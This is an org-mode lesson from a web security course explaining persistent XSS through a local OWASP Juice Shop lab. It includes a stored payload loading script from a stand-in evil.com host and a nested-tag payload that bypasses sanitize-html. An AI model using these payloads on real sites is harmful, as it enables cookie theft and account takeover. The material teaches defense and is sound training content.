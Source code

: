 #+TITLE: Persistent XSS
* Ep-5: What is Persistent XSS
** Table Of Contents
- [[#ep-5-what-is-persistent-xss][Ep-5: What is Persistent XSS]]
  - [[#scope][Scope]]
  - [[#xss-types][XSS Types]]
  - [[#persistent-xss][Persistent XSS]]
  - [[#persistent-xss-vs-reflected-xss][Persistent XSS vs Reflected XSS]]
  - [[#assignment-scenario][Assignment Scenario]]
  - [[#assignment-1-persistent-xss][Assignment 1: Persistent XSS]]
  - [[#assignment-1-persistent-xss-answer][Assignment 1: Persistent XSS (Answer)]]
  - [[#assignment-2-xss-sanitization-issues][Assignment 2: XSS Sanitization Issues]]
  - [[#assignment-3-information-leakage][Assignment 3: Information Leakage]]
  - [[#assignment-3-information-leakage-answer][Assignment 3: Information Leakage (Answer)]]
  - [[#assignment-4-reconnaissance-through-npm-audit][Assignment 4: Reconnaissance Through Npm Audit]]
  - [[#assignment-4-recon-through-npm-audit-answer][Assignment 4: Recon Through Npm Audit (Answer)]]
  - [[#assignment-5-persistent-xss][Assignment 5: Persistent XSS]]
  - [[#assignment-5-persistent-xss-answer][Assignment 5: Persistent XSS (Answer)]]
  - [[#persistent-xss-summation][Persistent XSS Summation]]
  - [[#knowledge-dependency-tree][Knowledge Dependency Tree]]

** Scope
- What is Persistent XSS (Cross-Site Scripting)?
- Where are common locations for Persistent XSS?
- How can XSS defenses be exploited?
  - Live example via OWASP Juice Shop!
- Learn to leverage ~npm audit~ to check for node.js vulnerabilities
- Persistent XSS vs Reflected XSS
** XSS Types
- Persistent
  - Stored XSS
- Non-Persistent
  - Reflected XSS
  - DOM XSS
** Persistent XSS
- Typically stored in the database
  - username ~<script src='evil.com'></script>~
  - Also in local storage
- Very problematic when shared across multiple users
  - Ex: Chat application where ~username~ is sent to multiple clients
- Other high risk areas
  - Functionality that allows users to submit html markup
    - Web forums
  - Comments
** Persistent XSS vs Reflected XSS
- Persistent XSS
  - Much more dangerous
  - Can attack all users of a site
  - Doesn't have to involve an action from a user
- Reflected XSS
  - Often requires an action from the victim
    - Clicking on malicious link with XSS payload
      - Payload is reflected back to the user
  - Typically involves one victim
** Assignment Scenario
- Exploit a Persistent XSS flaw by taking advantage of a XSS defense
- Aside: All assignment instructions assume Linux/macOS
- OWASP Juice Shop
  - Intentionally vulnerable web app
  - https://github.com/securingthestack/juice-shop
    - ~persistent-xss-1~ branch
  - ~docker run --rm -p 3000:3000 securingthestack/juice-shop:persistent-xss-1~
** Assignment 1: Persistent XSS
1. /Try/ to obtain Persistent XSS within http://localhost:3000/#/contact
   - Port assumes that you leveraged the docker command
   - Input (http://localhost:3000/#/contact)
     - ~<script>alert("I have XSS")</script>Outside Text~ within the ~Comment~ field
     - Make sure to leave rating
   - Output
     - Within the ~Customer Feedback~ section within http://localhost:3000/#/about
2. Given the output in the ~Customer Feedback~ section, how is the application
   handling XSS attacks?
   - Within the context of this feature, why is this a bad practice?

** Assignment 1: Persistent XSS (Answer)
1. Instead of rejecting unexpected input, the application is sanitizing it
   - This is very difficult to implement properly
     - Hmm... How can this step be exploited?
2. Alert
   - If input is unexpected, fully reject it
     - There is no reason why html markup should be placed within the ~Comment~ field

** Assignment 2: XSS Sanitization Issues
- Given the application sanitizes the ~script~ tags within ~<script>alert("I
    have XSS")</script>~...
- Can you insert anything /around/ the ~script~ tags that would allow the XSS to continue?
- Lets explore how attackers could find this flaw
  - Answer will be within the final assignment

** Assignment 3: Information Leakage
1. Through the browser, view Juice Shop's ~package.json~
   - Unfortunately, this file is often easily available
   - Hint
     - ~app.use(express.static(applicationRoot))~

** Assignment 3: Information Leakage (Answer)
- http://localhost:3000/package.json
  - "This isn't a vulnerability!"
- Place ~package.json~ into a directory of your choice
  - You'll be leveraging it within the next assignment

** Assignment 4: Reconnaissance Through Npm Audit
1. Upgrade npm to npm@6+
   - ~npm install npm@latest -g~
2. ~cd~ into the directory with the ~package.json~
3. ~npm i --package-lock-only~
4. ~npm audit > audit.txt~
5. What vulnerability within ~sanitize-html~ can be leveraged to exploit
   Assignment 2?

** Assignment 4: Recon Through Npm Audit (Answer)
- ~sanitize-html~ doesn't sanitize recursively
  - https://nodesecurity.io/advisories/135
  - https://github.com/punkave/sanitize-html/issues/29

** Assignment 5: Persistent XSS
- Obtain persistent XSS within http://localhost:3000/#/about
- XSS Input
  - Within the ~Comment~ field of http://localhost:3000/#/contact
  - Leave rating

** Assignment 5: Persistent XSS (Answer)
- ~<<script>Foo</script>script>alert("XSS")</script>~
- Alternative that doesn't work
- ~<script<script>>alert("I stole your auth cookie")<</script>/script>~

** Persistent XSS Summation
- If input is unexpected, halt execution
  - Dont try to sanitize
- Exploitation process started with "harmless" information leakage
- ~Npm audit~ is your friend
- https://blog.github.com/2017-11-16-introducing-security-alerts-on-github/
- Persisted XSS could give attackers code execution on all of your users' browsers
** Knowledge Dependency Tree
+ [[https://securing-the-stack.teachable.com/p/reflected-cross-site-scripting][Reflected Xss]]
